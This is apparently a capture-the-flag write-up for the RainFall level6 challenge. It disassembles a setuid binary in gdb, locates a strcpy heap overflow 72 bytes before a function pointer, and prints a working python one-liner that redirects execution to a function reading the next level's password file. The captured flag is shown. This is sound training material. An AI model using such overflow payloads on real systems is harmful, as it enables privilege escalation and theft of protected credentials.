 # Preparations

Entering level6 home directory we see a level6 binary with sticky bit in access rights.
By objdumping the binary we see 3 functions: main, m and n:

	level6@RainFall:~$ objdump -D -M intel-mnemonic level6 > /tmp/dump

Why do we do objdump first? Maybe in this exercise a function exists but is not used so we need to see all the functions.

# Code writing

We start to work with gdb in Intel syntax (set disassembly-flavor intel):

	(gdb) disass main
    Dump of assembler code for function main:
       0x0804847c <+0>:	push   ebp
       0x0804847d <+1>:	mov    ebp,esp
       0x0804847f <+3>:	and    esp,0xfffffff0
       0x08048482 <+6>:	sub    esp,0x20
       0x08048485 <+9>:	mov    DWORD PTR [esp],0x40 			;argument for malloc
       0x0804848c <+16>:	call   0x8048350 <malloc@plt> 		;call malloc with arguments
       0x08048491 <+21>:	mov    DWORD PTR [esp+0x1c],eax 	;result of malloc to some value
       0x08048495 <+25>:	mov    DWORD PTR [esp],0x4  		;argument for malloc
       0x0804849c <+32>:	call   0x8048350 <malloc@plt>   	;call malloc with arguments
       0x080484a1 <+37>:	mov    DWORD PTR [esp+0x18],eax 	;result of malloc to some value
       0x080484a5 <+41>:	mov    edx,0x8048468 			;upload the beginning of the m function 
       0x080484aa <+46>:	mov    eax,DWORD PTR [esp+0x18] 	;something with variables, put address of m function to the variable
       0x080484ae <+50>:	mov    DWORD PTR [eax],edx 		;something with variables, put address of m function to the variable
       0x080484b0 <+52>:	mov    eax,DWORD PTR [ebp+0xc] 		;something with variables, argv is used
       0x080484b3 <+55>:	add    eax,0x4 				;something with variables, argv[1] is taken
       0x080484b6 <+58>:	mov    eax,DWORD PTR [eax] 		;arguments for strcpy
       0x080484b8 <+60>:	mov    edx,eax 				;arguments for strcpy
       0x080484ba <+62>:	mov    eax,DWORD PTR [esp+0x1c] 	;arguments for strcpy
       0x080484be <+66>:	mov    DWORD PTR [esp+0x4],edx 		;arguments for strcpy
       0x080484c2 <+70>:	mov    DWORD PTR [esp],eax 		;arguments for strcpy
       0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>   	;call strcpy with arguments
       0x080484ca <+78>:	mov    eax,DWORD PTR [esp+0x18] 	;something with variables, deal with variable that we used before
       0x080484ce <+82>:	mov    eax,DWORD PTR [eax] 		;prepare to call functions that is a variable
       0x080484d0 <+84>:	call   eax 				;call function that lies in a variable
       0x080484d2 <+86>:	leave
       0x080484d3 <+87>:	ret

Something new!\
Let's look at the m function:

	(gdb) disass m
    Dump of assembler code for function m:
       0x08048468 <+0>:	push   ebp
       0x08048469 <+1>:	mov    ebp,esp
       0x0804846b <+3>:	sub    esp,0x18
       0x0804846e <+6>:	mov    DWORD PTR [esp],0x80485d1 		;argument for puts
       0x08048475 <+13>:	call   0x8048360 <puts@plt> 		;call puts with arguments
       0x0804847a <+18>:	leave
       0x0804847b <+19>:	ret

Let's look at the n function:

	(gdb) disass n
    Dump of assembler code for function n:
       0x08048454 <+0>:	push   ebp
       0x08048455 <+1>:	mov    ebp,esp
       0x08048457 <+3>:	sub    esp,0x18
       0x0804845a <+6>:	mov    DWORD PTR [esp],0x80485b0 		;argument for system
       0x08048461 <+13>:	call   0x8048370 <system@plt>   	;call system with arguments
       0x08048466 <+18>:	leave
       0x08048467 <+19>:	ret

Let's see some insites by their addresses:

	Breakpoint 10, 0x080484d0 in main ()
    (gdb) p/x $eax
        $5 = 0x8048468
    (gdb) x/s 0x80485b0
        $6 = "/bin/cat /home/user/level7/.pass"
    (gdb) x/s 0x80485d1
        $7 = "Nope"

Here we call an `m` function in the end of `main`.\
All the strings, arguments and FILE streams are known now.

# Exploitation

If we just start the binary, we have:

    level6@RainFall:~$ ./level6 abc
        Nope

Instead of "Nope" we need to print a token. This we can do if we send `n` function instead of the `m` function.\
Let's see what we have:

    Breakpoint 11, 0x080484ca in main ()
    (gdb) x/20wx $esp+0x18
        0xbffff6e8:	**0x0804a050**	0x0804a008	0x080484e0	0x00000000
        0xbffff6f8:	0x00000000	0xb7e454d3	0x00000002	0xbffff794
        0xbffff708:	0xbffff7a0	0xb7fdc858	0x00000000	0xbffff71c
        0xbffff718:	0xbffff7a0	0x00000000	0x0804822c	0xb7fd0ff4
        0xbffff728:	0x00000000	0x00000000	0x00000000	0x6d746187
    (gdb) x/wx $esp+0x18
        0xbffff6e8:	0x0804a050
    (gdb) p/x *0x0804a050
        $9 = 0x8048468

One more time - that is the address of the `m` function.

    Breakpoint 10, 0x080484d0 in main ()
    (gdb) p/x $eax
        $5 = 0x8048468

Let's find argument sent to the `m` function (playing with arguments sent to the binary):

    (gdb) x/wx $esp+0x1c
        0xbffff6ec:	0x0804a008
    (gdb) p/s *0x0804a008
        $12 = 1094795585
    (gdb) p/x *0x0804a008
        $13 = 0x41414141
    (gdb) p/x *0x0804a008
        $14 = 0x41414141

Here are my 11 Аs
    
    (gdb) p/c *(0x0804a008 + 1)
    $32 = 65 'A'
    (gdb) p/c *(0x0804a008 + 2)
    $33 = 65 'A'
    (gdb) p/c *(0x0804a008 + 3)
    $34 = 65 'A'
    (gdb) p/c *(0x0804a008 + 4)
    $35 = 65 'A'
    (gdb) p/c *(0x0804a008 + 5)
    $36 = 65 'A'
    (gdb) p/c *(0x0804a008 + 6)
    $37 = 65 'A'
    (gdb) p/c *(0x0804a008 + 7)
    $38 = 65 'A'
    (gdb) p/c *(0x0804a008 + 8)
    $39 = 65 'A'
    (gdb) p/c *(0x0804a008 + 9)
    $40 = 65 'A'
    (gdb) p/c *(0x0804a008 + 10)
    $41 = 65 'A'
    (gdb) p/c *(0x0804a008 + 11)
    $42 = 0 '\000'

And that is where call to `m` function lies:

    (gdb) x/10wx 0x0804a008
        0x804a008:	0x41414141	0x41414141	0x00414141	0x00000000
        0x804a018:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a028:	0x00000000	0x00000000
    (gdb) x/20wx 0x0804a008
        0x804a008:	0x41414141	0x41414141	0x00414141	0x00000000
        0x804a018:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a028:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a038:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a048:	0x00000000	0x00000011	**0x08048468**	0x00000000

That is 72 bytes starting from the buffer beginning:

    (gdb) p/x 0x804a048 + 8
        $44 = 0x804a050
    (gdb) p 0x804a050 - 0x804a008
        $45 = 72

Now let's replace `m` address with `n` address that is 0x08048454 or \x54\x84\x04\x08 in little-endian by writing it over.\
We make:

    level6@RainFall:~$ ./level6 $(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')
        f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d

# Result

    level6@RainFall:~$ ./level6 $(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')
        f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
